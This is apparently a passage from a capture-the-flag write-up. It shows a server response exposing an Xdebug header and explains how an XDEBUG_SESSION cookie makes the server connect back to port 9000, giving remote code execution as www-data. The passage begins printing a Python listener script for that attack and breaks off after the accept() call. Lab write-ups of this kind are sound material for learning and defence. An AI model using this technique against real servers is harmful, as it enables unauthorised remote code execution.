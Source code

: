 <h4 id="http-headers">HTTP Headers</h4>

<p>Looking at the raw request / response, there is an interesting headers in the response:</p>

<div class="language-http highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="k">HTTP</span><span class="o">/</span><span class="m">1.1</span> <span class="m">200</span> <span class="ne">OK</span>
<span class="na">Date</span><span class="p">:</span> <span class="s">Mon, 21 May 2018 13:25:39 GMT</span>
<span class="na">Server</span><span class="p">:</span> <span class="s">Apache</span>
<span class="na">Vary</span><span class="p">:</span> <span class="s">Accept-Encoding</span>
<span class="na">X-Content-Type-Options</span><span class="p">:</span> <span class="s">nosniff</span>
<span class="na">X-Frame-Options</span><span class="p">:</span> <span class="s">sameorigin</span>
<span class="na">X-XSS-Protection</span><span class="p">:</span> <span class="s">1; mode=block</span>
<span class="na">Xdebug</span><span class="p">:</span> <span class="s">2.5.5</span>
<span class="na">Content-Length</span><span class="p">:</span> <span class="s">314</span>
<span class="na">Connection</span><span class="p">:</span> <span class="s">close</span>
<span class="na">Content-Type</span><span class="p">:</span> <span class="s">text/html; charset=UTF-8</span>
</code></pre></div></div>

<p><code class="language-plaintext highlighter-rouge">Xdebug</code> is a an extension for <code class="language-plaintext highlighter-rouge">php</code> that allows you to debug websites. The header may indicate that we can do remote debugging.</p>

<h2 id="exploiting-create-container---shell-as-www-data">Exploiting Create Container - Shell as www-data</h2>

<h3 id="rce-through-xdebug">RCE Through Xdebug</h3>

<p>There’s couple ways to interact with Xdebug. A developer would have an xdebug extension in their ide, and/or in their browser (there’s tons of plugins for both Chrome and Firefox). It’s worth taking a second and playing with the browser plugins to get a feel for them</p>

<p>But for a more direct path to RCE / shell, we can take the manual route. If you add a cookie <code class="language-plaintext highlighter-rouge">XDEBUG_SESSION=...</code>, the site will call back to you on default port 9000, and you can pass php commands to it.</p>

<p><a href="https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface">This blog</a> describes how to do the attack, albeit in Chinese. There’s a short script he uses to interact, which simply listens on port 9000, receives the connection, and then enters an infinite loop of reading input commands from the command line, and sends them back formatted for xdebug:</p>

<div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="c1">#!/usr/bin/python2
</span><span class="kn">import</span> <span class="n">socket</span>

<span class="n">ip_port</span> <span class="o">=</span> <span class="p">(</span><span class="sh">'</span><span class="s">0.0.0.0</span><span class="sh">'</span><span class="p">,</span><span class="mi">9000</span><span class="p">)</span>
<span class="n">sk</span> <span class="o">=</span> <span class="n">socket</span><span class="p">.</span><span class="nf">socket</span><span class="p">()</span>
<span class="n">sk</span><span class="p">.</span><span class="nf">bind</span><span class="p">(</span><span class="n">ip_port</span><span class="p">)</span>
<span class="n">sk</span><span class="p">.</span><span class="nf">listen</span><span class="p">(</span><span class="mi">10</span><span class="p">)</span>
<span class="n">conn</span><span class="p">,</span> <span class="n">addr</span> <span class="o">=</span> <span class="n">sk</span><span class="p">.</span><span class="nf">accept</span><span class="p">()</span>
